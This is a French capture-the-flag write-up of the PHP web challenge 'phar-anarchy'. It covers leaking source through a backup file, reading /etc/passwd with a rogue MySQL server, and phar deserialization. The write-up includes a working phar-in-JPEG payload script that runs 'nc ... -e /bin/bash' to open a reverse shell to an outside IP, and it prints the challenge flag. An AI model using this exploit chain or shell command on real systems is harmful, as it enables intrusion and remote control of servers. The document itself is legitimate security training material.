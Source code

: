 ### Challenge

phar-anarchy

### Auteur

Worty

### Solution

On arrive donc sur une page assez "old-school" :

![alt](Images/1.png)

Si l'on regarde la page "Anarchy", on remarque qu'il est possible d'upload un fichier jpg,png,... mais je reviendrais sur l'importance de cette page plus tard.

Il n'y a rien d'autre intéressant dans l'application, je vais donc aller voir le contenu du fichier robots.txt :

```
User-agent: *
Disallow: /app/install/
Disallow: /app/tmp/
Disallow: *~$
```

Si l'on se rend dans le dossier /app/tmp/, on remarque qu'il sert pour l'upload des fichiers, il n'est donc pas intéressant, par contre, le dossier /app/install/ permet de tester la connexion à une base de données mySQL :

![alt](Images/2.png)

Si l'on repense au fichier robots.txt, la ligne `Disallow: *~$` semble bizarre, si l'on essaye de requêter l'url /app/install/index.php~ on obtient ceci :

```php
<?php
require_once __DIR__ . '/../includes/classes/Anarchy.php';

class ChaosManager extends Anarchy {

    public function getManifest() {
        return  "";
    }

    static public function getDBConn($host, $login, $password) {
        return new mysqli($host, $login, $password);
    }
}

if (isset($_GET['type'])) {
    if (filter_var(@$_GET['ip'], FILTER_VALIDATE_IP) === false) {
      $msg  = "<div class='alert alert-error'>IP address is not valid !</div>";
      goto FK_LOGIC;
    }

    // not needed anymore
    // mysqli_options(MYSQLI_OPT_LOCAL_INFILE, true);
    $mysqli = ChaosManager::getDBConn(@$_GET['ip'], @$_GET['login'], @$_GET['password']);
    if ($mysqli->connect_error) {
        $msg  = "<div class='alert alert-error'>";
        $msg .= "Total Anarchy ! Unable to connect to MySQL.<br><br>";
    }else {
        $mysqli->query("SELECT version()");
        $msg = "Successful connection to MySQL.";
        mysqli_close($mysqli);
    }
}

FK_LOGIC:

?>
<html>...</html>
```

A partir de ce moment-là, j'ai leak tous les fichiers de l'application, mais les plus intéressants sont:<br>
- /app/install/index.php
- /app/includes/classes/Anarchy.php

Le fichier Anarchy.php est le suivant :

```php
<?php

/*
* All classes must follow our anarchist manifest !
*/
abstract class Anarchy {
    public $func_anarchy = '';
    public $vars_anarchy = [];

    // Spread chaos with a different identifier everytime
    public function getChaos() {
      return __CLASS__ . uniqid("__anarch__", true);
    }

    // Each class has to have an Anarchist Manifesto
    abstract public function getManifest();

    public function __destruct() {
        if (!empty($this->func_anarchy))
          call_user_func_array($this->func_anarchy, $this->vars_anarchy);
    }
}
```

On remarque bien dans le fichier `/app/install/index.php` la classe qui sert à tester la connexion à une base de données mySQL hérité de la class `Anarchy`. Or, dans cette classe, on remarque que sa fonction `__destruct` a été overwrite pour que, si la variable `func_anarchy` n'est pas vide, il exécute la dite fonction avec les paramètres contenus dans `vars_anarchy`.

On commence donc à voir un début d'exploitation, jouer avec la sérialization php pour faire appel à cette fonction destruct pour exécuter notre fonction et donc potentiellement obtenir une RCE.

Si l'on revient au script qui test la connexion à une base de données, on remarque assez vite qu'il est possible de passer n'importe quelle adresse IP. 

On remarque aussi la version de PHP utilisée, "PHP 7.3.2", et si l'on regarde les patchs effectués après cette version, on remarque que l'option "MYSQLI_OPT_LOCAL_INFILE" était, de base, à false. Cette option sert pour interdire (ou non) le chargement de fichier interne à la machine. Etant donné la version et la ligne commentée `// mysqli_options(MYSQLI_OPT_LOCAL_INFILE, true);`, il va être possible de récupéré des fichiers internes de la machine. 

Il va falloir maintenant trouvé comment, étant donné que, de base, il n'y a pas d'interaction. Mais on peut demander au script de tester la connexion à une base de données, on peut donc mettre en place une Rogue mySQL (un script python qui se fait passer pour une base de données), qui va nous permettre de lire des fichiers de la machine distante :

![alt](Images/3.png)

On voit bien qu'en faisant ce faux serveur, on réussit à récupérer le fichier /etc/passwd de la machine distante.

On va maintenant arriver à la partie "amusante de l'exploitation". Nous allons exploiter l'application de la manière suivante :<br>
- Création d'une archive phar cachée dans une jpg
- Dans cette archive :
    - Mettre les headers jpg pour passer les vérifications
    - Dans les métadonnées, mettre une sérialization de la classe Anarchy pour initialiser les deux paramètres qui sont passés dans la fonction destruct
- Upload de l'archive sur la plateforme
- Requeter avec le serveur rogue le fichier "phar:///path/to/upload"

J'ai donc créé un script pour crafter cette archive phar :

```php
<?php
$jpeg_header = ""; //jpeg headers

class ChaosManager //initialize class to trigger RCE
{
    public $func_anarchy = 'system'; 
    public $vars_anarchy = ["nc 146.59.156.82 4444 -e /bin/bash"]; 
}

$phar = new Phar("phar.phar"); 
$phar->startBuffering();
$phar->setStub($jpeg_header."<?php __HALT_COMPILER(); ?>");
$a = new ChaosManager();
$phar->setMetadata($a);
$phar->addFromString("test.php","test");
$phar->stopBuffering();
```

Cette archive va donc trigger notre désérialization dans les métadonnées qui va permettrent de déclencher notre RCE.

On va donc ensuite upload cette archive sur le site, pour ensuite pouvoir y accéder.

L'application (gentillement) nous renvoi le path vers notre "image" `/var/www/html/app/chaos/anon_613b6b93e9fc29.72427691_phar`

On relance donc notre serveur rogue SQL et on inclut ce fichier (en n'oubliant pas le wrapper phar://) :

![alt](Images/4.png)

Ici, je demande mon fichier phar suivi de test.php, puisque dans la création de l'archive phar, les métadonnées (malveillantes) seront ajoutées dedans.

On obtient donc notre fameux reverse shell :

![alt](Images/5.png)

Encore un grand merci à l'auteur de ce challenge :)
### Flag

ALG{INC_PHAR_OOB_KEWL}